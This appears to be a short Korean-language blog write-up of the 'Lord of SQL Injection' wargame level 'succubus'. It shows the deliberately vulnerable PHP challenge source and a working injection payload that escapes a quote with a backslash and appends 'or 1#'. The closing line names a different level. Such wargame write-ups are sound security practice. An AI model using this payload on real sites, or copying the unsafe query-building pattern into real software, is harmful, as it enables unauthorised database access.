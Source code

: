 ```yaml
---
layout: post
title:  "los prob_succubus"
date:   2019-10-22
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

> query : select id from prob_succubus where id='' and pw=''

~~~ php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/\'/',$_GET[id])) exit("HeHe");
  if(preg_match('/\'/',$_GET[pw])) exit("HeHe");
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
~~~

# Solve
1. "\" 사용 -> '(싱글쿼터)를 문자열로 취급

### ?id=\&pw=%20or%201%23

## ASSASSIN Clear!
